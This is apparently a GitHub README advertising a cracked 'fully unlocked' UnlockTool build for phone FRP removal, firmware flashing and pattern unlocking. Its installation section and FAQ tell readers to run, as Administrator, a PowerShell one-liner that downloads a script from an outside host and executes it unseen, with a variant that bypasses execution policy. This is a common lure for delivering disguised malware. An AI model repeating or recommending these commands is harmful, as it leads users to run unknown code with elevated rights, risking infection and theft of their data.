

<div align="center">


<br>


# UnlockTool Digital Service Edition
**Digital Service · FRP · Flash**
<br>
**Digital Service · FRP · Flash**
<br>
Premium · Pro · Full build · Windows



**Fully unlocked UnlockTool Digital Service — FRP removal, firmware flashing, pattern recovery and full chipset database included.**

</div>

---

> Digital service edition includes full device database, drivers and repair modules — service mobile devices without credit limits.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

- 📱 **Device support** — Broad chipset and manufacturer coverage enabled.
- 🔧 **FRP tools** — Factory reset protection removal workflows included.
- 💾 **Firmware flash** — Stock ROM and recovery image flashing active.
- 🔑 **Pattern unlock** — Screen lock and account recovery tools enabled.
- 🔓 **Full database** — Latest models and security patches included.
- ⚙️ **Driver pack** — USB and diagnostic drivers bundled in this build.
- ⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB minimum |
| **Disk** | 5 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB minimum, 5 GB free space.
</details>


TAGS
unlocktool, mobile-service-tool, frp-removal, firmware-flash, device-repair, gsm-toolkit, android-service, mobile-repair, smartphone-tools, diagnostics, tech-support, usb-drivers, device-maintenance, unlocktool-digital-service, unlocktool-digital-service-pc
